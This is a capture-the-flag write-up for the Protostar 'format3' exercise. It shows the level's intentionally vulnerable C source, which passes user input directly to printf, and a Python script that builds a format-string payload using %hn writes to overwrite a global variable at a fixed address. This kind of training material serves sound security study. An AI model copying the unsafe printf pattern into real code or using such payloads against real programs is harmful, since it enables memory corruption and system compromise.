

# Format Three

## Description

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Exploit script

```python
fmt_offset = 12            
target_value = 0x01025544
target_addr = 0x080496f4

payload = "".join([
	"\xf6\x96\x04\x08", "%254c", "%12$hna",
	"\xf4\x96\x04\x08", "%21565c", "%16$hn" 
])
print(payload)
```

Level passed!

<p align="center">
    
</p>